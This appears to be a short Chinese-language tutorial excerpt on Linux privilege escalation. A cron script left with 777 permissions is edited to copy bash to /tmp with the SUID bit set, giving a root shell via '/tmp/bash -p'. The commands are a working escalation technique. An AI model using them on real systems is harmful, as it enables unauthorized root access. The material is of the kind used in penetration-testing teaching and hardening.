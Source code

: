 管理员在设置一个定时任务的时候，通常都需要给定时任务的脚本添加一个执行权限，正常情况下都是"chmod +x test.sh"，而有些管理员偷懒直接添加一个777权限，这时普通用户就可以修改test.sh文件中的内容，就会导致权限配置不当提权。
```
cat /etc/crontab

vim test.sh 进行追加内容
cp /bin/bash /tmp/bash; chmod +s /tmp/bash  ##将bin下的bash复制到tmp下，同时加上SUID权限。

定时任务执行后
/tmp/bash -p 即可获取root会话。
```